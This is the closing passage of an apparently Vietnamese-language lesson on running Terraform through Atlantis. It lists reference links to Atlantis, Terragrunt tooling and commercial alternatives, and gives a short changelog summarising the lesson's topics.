- 📖 [Atlantis Helm chart](https://github.com/runatlantis/helm-charts)
- 📖 [terragrunt-atlantis-config](https://github.com/transcend-io/terragrunt-atlantis-config)
- 📖 [Spacelift](https://spacelift.io/) — commercial alternative
- 📖 [env0](https://www.env0.com/) — commercial alternative
- 📖 [Terraform Cloud](https://www.hashicorp.com/products/terraform)
- 📖 [Conftest](https://www.conftest.dev/) — OPA policies for IaC
- 📖 [Atlantis-Demo](https://github.com/runatlantis/atlantis-tutorial) — official tutorial

---

## 📌 Changelog

- **v1.1.0 (25/05/2026)** — Apply Blueprint v0.5.4+ §3.6: thêm lead-in trước Architecture + Pre-requisites + Helm install + Plan comment + Available commands.

- **v1.0.0 (24/05/2026)** — Bản đầu tiên. Lesson 02 intermediate. Atlantis architecture + Helm install + GitHub webhook + atlantis.yaml + workflow + apply_requirements + RBAC + state lock + Terragrunt integration + comparison with Spacelift/env0/Terraform Cloud + hands-on. Apply insight `__Ref__/` (GitOps as enforcement gate). 8 pitfall + 4 best practice + 5 self-check + cheatsheet.